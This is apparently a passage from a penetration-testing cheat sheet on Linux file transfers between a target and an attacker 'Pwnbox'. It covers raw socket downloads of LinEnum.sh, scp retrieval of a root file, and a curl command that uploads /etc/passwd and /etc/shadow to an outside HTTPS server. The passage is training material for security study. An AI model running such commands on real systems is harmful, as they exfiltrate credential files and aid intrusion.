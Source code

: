 HTTP GET Request
```
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
Print the Response
```
cat <&3
```
### SSH Downloads
Enabling the SSH Server
```
sudo systemctl enable ssh
```
Starting the SSH Server
```
sudo systemctl start ssh
```
Checking for SSH Listening Port
```
netstat -lnpt
```
Linux - Downloading Files Using SCP
```
scp plaintext@192.168.49.128:/root/myroot.txt .
```
## Upload Operations
### Web Upload
Pwnbox - Start Web Server
```
sudo python3 -mpip install --user uploadserver
```
Pwnbox - Create a Self-Signed Certificate
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
Pwnbox - Start Web Server
```
mkdir https && cd https
```
```
sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```
Linux - Upload Multiple Files
```
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
### Alternative Web File Transfer Method
Linux - Creating a Web Server with Python3
```
python3 -m http.server
```
Linux - Creating a Web Server with Python2.7
```
python2.7 -m SimpleHTTPServer
```
Linux - Creating a Web Server with PHP
```
php -S 0.0.0.0:8000
```
Linux - Creating a Web Server with Ruby
```
ruby -run -ehttpd . -p8000
```
Download the File from the Target Machine onto the Pwnbox
```
```